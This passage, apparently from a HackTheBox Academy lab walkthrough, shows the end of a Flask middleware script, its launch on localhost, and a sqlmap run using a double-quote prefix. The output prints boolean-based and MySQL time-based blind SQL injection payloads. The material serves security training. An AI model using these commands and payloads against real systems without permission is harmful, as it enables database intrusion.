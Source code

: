 ```python

    return r['messages']

app.run(host='127.0.0.1', port=8000)
```

After saving it into a file, students need to run it:

Code: shell

```shell
python3 sqlmapMiddleware.py
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-0ptxut4w0g]─[~]
└──╼ [★]$ python3 sqlmapMiddleware.py

 * Serving Flask app 'sqlmapMiddleware' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8000/ (Press CTRL+C to quit)
```

Subsequently, students need to run `sqlmap`, making sure to use the `--prefix` option and the value `"` for it:

Code: shell

```shell
sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --batch --threads=10
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-0ptxut4w0g]─[~]
└──╼ [★]$ sqlmap -u http://127.0.0.1:8000/?username=htb-stdnt --prefix='"' --batch --threads=10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

sqlmap identified the following injection point(s) with a total of 1350 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=htb-stdnt" AND 2100=2100-- iijO

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=htb-stdnt" AND (SELECT 5692 FROM (SELECT(SLEEP(5)))OHuw)-- qISp
---
<SNIP>
```
